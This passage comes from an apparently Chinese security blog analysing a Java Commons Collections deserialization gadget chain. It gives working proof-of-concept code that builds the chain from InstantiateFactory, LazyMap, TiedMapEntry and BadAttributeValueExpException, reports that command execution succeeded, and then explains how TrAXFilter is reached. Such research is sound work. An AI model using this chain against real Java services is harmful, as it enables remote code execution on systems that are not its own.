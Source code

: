 ```
        setFiledValue(templates,"_class",null);

        InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class,new Class[]{Templates.class},new Object[]{templates});
        FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);

        Map innermap = new HashMap();
        LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,factoryTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(outmap,"town");
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC.bin"));
        os.writeObject(poc);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC.bin"));
        fos.readObject();

    }

    public static void setFiledValue(Object obj,String Filename,Object value) throws Exception
    {
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

![image-20220428200258545](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220428200258545.png)

命令执行成功

# 漏洞分析

虽然分析过CC5这些了，还是来分析一下

对于后面加载字节码就是经典问题了，那里是很熟悉了的就不分析了，直接看TrAXFilter类

![image-20220428201110988](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220428201110988.png)

他的构造器里面传入的是一个Templates接口的参数，然后去调用了newTransformer，在CC3的时候是在InstantiateTransformer这个类里面的transform方法通过反射来调用这里的构造器

![image-20220428201248299](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220428201248299.png)

不过这里我们不能用这个，就是这次的主角InstantiateFactory，来看看这个类有个create方法可以是实例化一个构造器
